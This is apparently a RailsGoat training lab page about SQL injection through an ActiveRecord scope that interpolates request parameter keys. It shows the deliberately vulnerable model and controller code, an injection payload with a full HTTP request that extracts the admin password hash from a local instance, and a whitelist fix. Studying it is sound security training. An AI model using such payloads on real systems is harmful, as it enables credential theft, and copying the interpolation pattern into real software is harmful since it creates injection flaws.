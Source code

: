 # Description

ActiveRecord provides a useful tool for it's Models called a scope. In the words of the documentation:

>"Scoping allows you to specify commonly-used queries which can be referenced as  method calls on the association objects or models."

This means that we can call a scope as a method and that the scope can be used for common queries such as where and join. Developers must be careful not to interpolate or concatenate user input into these scope calls as this can lead to SQL Injection. This is a common mistake made and can have serious consequences.

# Bug

Within app/models/analytics.rb:

```ruby
class Analytics < ActiveRecord::Base
  attr_accessible :ip_address, :referrer, :user_agent

  scope :hits_by_ip, ->(ip,col="*") { select("#{col}").where(:ip_address => ip).order("id DESC")}

  def self.count_by_col(col)
    calculate(:count, col)
  end
```

Additionally, within app/controllers/admin_controller.rb:

```ruby
def analytics
  if params[:field].nil?
    fields = "*"
  else
    fields = params[:field].map {|k,v| k }.join(",")
  end

  if params[:ip]
    @analytics = Analytics.hits_by_ip(params[:ip], fields)
  else
    @analytics = Analytics.all
  end
  render "layouts/admin/_analytics"
end
```

Within the controller we call the method hits_by_ip. This method is actually a scope as highlighted (above) in the Analytics model. The field object, defined within the controller, represents user-input that is intended to control the column returned by the SQL query. The field object represents the HTTP Request's parameter key. So this means we can control at least a portion of the query. Due to the fact that this input is used as an interpolated value within the query string, we have control over a larger portion of the query.

# Solution

### SQL Injection - ATTACK

You will need to use an intercepting proxy or otherwise modify the request prior to it being received by the application. Your goal will be to obtain sensitive values from the database - specifically the md5 hashed password of our administrative account.

To get started, login as a **non**-admin user (otherwise, whats the point?). Now, navigate to the analytics page:

[http://localhost:3000/admin/1/analytics](http://localhost:3000/admin/1/analytics)

Type `127.0.0.1` or `::1` into the `Search by IP` field. Click the `User Agent` box, as well.

Click enter and initiate the request. Catch and modify the request in your intercepting proxy. Change...

`&field%5Buser_agent%5D=`

to

`field%5B%28select+group_concat%28password%29+from+users+where+admin%3D%27t%27%29%5D`

When decoded, the string shown above is `field[(select+group_concat(password)+from+users+where+admin='t')]`. The `(select+group_concat(password)+from+users+where+admin='t')` portion will be included in the existing query `{ select("#{col}").where(ip_address: ip).order("id DESC")}`. This creates the following query:

`SELECT (select group_concat(password) from users) FROM "analytics" WHERE "analytics"."ip_address" = ? ORDER BY id DESC  [["ip_address", "127.0.0.1"]]`

So we've joined the administrative password hash with the ip addresses being returned in the query.

The following is the full request:

```
GET /admin/1/analytics?ip=127.0.0.1&field%5B%28select+group_concat%28password%29+from+users+where+admin%3D%27t%27%29%5D HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:3000/admin/1/analytics
Cookie: _railsgoat_session=[REDACTED]
Connection: close
Upgrade-Insecure-Requests: 1
```

### SQL Injection - SOLUTION

To resolve this issue, do not interpolate user-provided input into SQL queries. However, it is always a good idea to create a whitelist of acceptable values when writing any code that is intended to be powerful and very flexible but that also leverages user-input to make these potentially security-impacting decisions. Within the Analytics model, we have a method called `parse_field`:

```ruby
def self.parse_field(field)
 valid_fields = ["ip_address", "referrer", "user_agent"]
 
 if valid_fields.include?(field)
   field
 else
   "1"
 end
end
```
When used properly, this method prevents anything that does not match those items in the valid_fields array from reaching the SQL query. For example, within the admin controller we can prevent anything that does not match that white-list from inclusion into the query by doing the following:

```ruby
def analytics
  if params[:field].nil?
    fields = "*"
  else
   fields = params[:field].map {|k,v| Analytics.parse_field(k) }.join(",")
  end

  if params[:ip]
    @analytics = Analytics.hits_by_ip(params[:ip], fields)
  else
    @analytics = Analytics.all
  end
  render "layouts/admin/_analytics"
end
```

Effectively, we've changed any malicious data provided by the user into the number '1' by leveraging the above code.
# Hint
Administrative analytics functionality need further security analysis. Now might be a good time to test for SQLi.
